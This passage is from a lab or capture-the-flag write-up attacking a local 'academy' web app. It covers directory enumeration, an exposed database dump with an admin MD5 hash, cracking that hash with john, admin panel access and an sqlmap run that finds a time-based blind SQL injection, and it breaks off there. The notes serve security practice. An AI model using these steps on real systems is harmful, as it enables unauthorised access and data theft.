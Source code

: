 ```bash
/includes             (Status: 301) [Size: 329] [--> http://192.168.109.131/academy/includes/]
/db                   (Status: 301) [Size: 323] [--> http://192.168.109.131/academy/db/]
Progress: 220558 / 220558 (100.00%)
===============================================================
Finished
===============================================================

```

- `academy/admin` didn't work, because the student I was logging in as wasn't an admin. However `academy/db` yielded their SQL db which has a listing for the admin's password hash

4. *PrivEsc*:
```bash
INSERT INTO `admin` (`id`, `username`, `password`, `creationDate`, `updationDate`) VALUES
(1, 'admin', '21232f297a57a5a743894a0e4a801fc3', '2020-01-24 16:21:18', '03-06-2020 07:09:07 PM')
```

- running john...
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 crackthis.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
admin            (?)     
1g 0:00:00:00 DONE (2025-10-17 00:05) 100.0g/s 1996Kp/s 1996Kc/s 1996KC/s clyde1..jonel
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 

```

- admin:admin into `academy/admin` from the second round of enum got us to the online course admin panel
![[Pasted image 20251017000737.png|500]]

- in the `admin` panel, attempting to reset Rum Ham's password shows the url in the browser tools uses a script that's called after the query operator:
http://192.168.109.131/academy/admin/manage-students.php?id=10201321&pass=update
- In the `admin` panel the majority of the tabs in the webapp don't seem to do much, but `/session` and `/department` accepts input that seems to get into the DB. This seems potentially vulnerable to SQL injection

Trying `sqlmap`:
```bash
└─$ sqlmap -r sqltesting.txt --batch

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:10:52 /2025-10-18/

[14:10:52] [INFO] parsing HTTP request from 'sqltesting.txt'
[14:10:52] [WARNING] provided value for parameter 'submit' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[14:10:52] [INFO] resuming back-end DBMS 'mysql' 
[14:10:52] [INFO] testing connection to the target URL
got a 302 redirect to 'http://192.168.109.132/academy/admin/index.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: sesssion (POST)
    Type: time-based blind
```